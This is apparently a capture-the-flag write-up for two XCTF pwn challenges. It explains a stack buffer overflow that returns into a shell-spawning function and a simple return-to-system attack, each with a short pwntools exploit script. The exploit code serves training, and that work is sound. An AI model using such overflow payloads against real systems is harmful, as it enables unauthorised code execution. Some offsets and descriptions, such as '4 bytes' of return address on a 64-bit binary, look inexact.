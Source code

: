 The password is `212.77.31.255`. Open the compressed file to get the flag,

## PWN

All the challenges are from XCTF's recent competitions.

### 签到

Check the file properties first:

```
$ file 291721f42a044f50a2aead748d539df0
291721f42a044f50a2aead748d539df0: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=8dc0b3ec5a7b489e61a71bc1afa7974135b0d3d4, not stripped
```

The main logic is simple, main prints `hello, world`, then calls `vulnerable_function`.

This function reads 0x200 bytes of data, and put them into 0x80 length buffer, which leads to a buffer overflow. Another useful function is `callsystem`, which gives us a shell.

The steps to solve:

1. Fill the first 0x80 bytes.
2. Overflow the 0x8 bytes of stack data useless.
3. Replace the next 4 bytes (return address) to `callsystem`.

```python
from pwn import * 
r = process("./app")
payload = 'A' * 0x88 + p64(0x00400596)
r.sendlineafter("Hello, World\n", payload)
r.interactive()
```

### 先别急

A little simple ROP challenge.

In this challenge, we don't have `callsystem` function any more. Instead, we need to find a `/bin/sh` string in the program.

Luckily, this challenge has `PIE disabled`. We can write libc address directly.

1. Overflow and jump to `system` function address.
2. Gives a `/bin/sh` string as parameter, and `0` as the second parameter.

```python
from pwn import *
system=0x08048320
shell=0x0804A024
r=process("./app")
payload='A'*(0x92)+p32(system)+p32(0)+p32(shell)
r.sendlineafter("Input:\n", payload)
r.interactive()
```
